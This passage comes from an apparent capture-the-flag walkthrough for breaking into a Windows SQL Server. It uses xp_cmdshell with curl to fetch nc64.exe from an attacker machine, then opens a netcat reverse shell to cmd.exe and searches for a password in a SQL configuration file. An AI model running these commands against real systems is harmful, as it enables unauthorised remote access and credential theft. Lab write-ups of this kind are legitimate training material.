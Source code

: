 RUN on SERVER: **xp_cmdshell curl 10.10.14.163/nc64.exe -o
C:\\Users\\public\\nc64.exe** (Has to be done fast, otherwise STEP 5.3
has to be repeated) 10.10.14.184 is Kali VM IP!

5.6 INFO: Start NETCAT on Kali VM

RUN on Kali VM: **nc -lvnp 9999**

![](./media/media/image13.png){width="2.777251749781277in"
height="0.645087489063867in"}

5.7 INFO: Connects from Server to Kali VM.

RUN on SERVER: **xp_cmdshell C:\\Users\\public\\nc64.exe 10.10.14.163
9999 -e cmd.exe**

![](./media/media/image14.png){width="6.29375in"
height="1.7722222222222221in"}

**GET USER**

6\. INFO: Found another PASSWORD in **sql-Configuration.INI**, in folder
**C:\\SQL2019\\ExpressAdv_ENU**

7\. INFO: Switch STEP BY STEP through the directories

RUN on SERVER: **cd C:\\**

RUN on SERVER: **dir**

RUN on SERVER: **cd SQL2019**

RUN on SERVER: **dir**

RUN on SERVER: **cd ExpressAdv_ENU**

RUN on SERVER: **dir**
